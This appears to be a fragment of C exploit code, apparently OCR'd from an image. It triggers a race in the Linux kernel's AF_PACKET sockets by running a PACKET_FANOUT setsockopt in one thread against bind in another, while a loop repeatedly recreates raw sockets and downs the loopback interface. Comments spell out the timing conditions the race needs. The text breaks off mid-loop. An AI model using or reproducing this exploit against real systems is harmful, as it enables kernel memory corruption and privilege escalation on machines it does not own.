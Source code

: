#define IS_ERR(c, s) { if (c) perror(s); }

struct sockaddr_ll {
    unsigned short  sll_family;
    short       sll_protocol; // big endian
    int     sll_ifindex;
    unsigned short  sll_hatype;
    unsigned char   sll_pkttype;
    unsigned char   sll_halen;
    unsigned char   sll_addr[8];
};

static int fd;
static struct ifreq ifr;
static struct sockaddr_ll addr;

void *task1(void *unused)
{
    int fanout_val = 0x3;

    // need race: check on po->running
    // also must be 1st or link wont register
    int err = setsockopt(fd, 0x107, 18, &fanout_val, sizeof(fanout_val));
    // IS_ERR(err == -1, "setsockopt");
}

void *task2(void *unused)
{
    int err = bind(fd, (struct sockaddr *)&addr, sizeof(addr));
    // IS_ERR(err == -1, "bind");
}

void loop_race()
{
    int err, index;

    while(1) {
        fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
        IS_ERR(fd == -1, "socket");

        strcpy((char *)&ifr.ifr_name, "lo");
        err = ioctl(fd, SIOCGIFINDEX, &ifr);
        IS_ERR(err == -1, "ioctl SIOCGIFINDEX");
        index = ifr.ifr_ifindex;

        err = ioctl(fd, SIOCGIFFLAGS, &ifr);
        IS_ERR(err == -1, "ioctl SIOCGIFFLAGS");

        ifr.ifr_flags &= ~(short)IFF_UP;
        err = ioctl(fd, SIOCSIFFLAGS, &ifr);
        IS_ERR(err == -1, "ioctl SIOCSIFFLAGS");

        addr.sll_family = AF_PACKET;
        addr.sll_protocol = 0x0; // need something different to rehook && 0 to skip register_prot_hook
        addr.sll_ifindex = index;
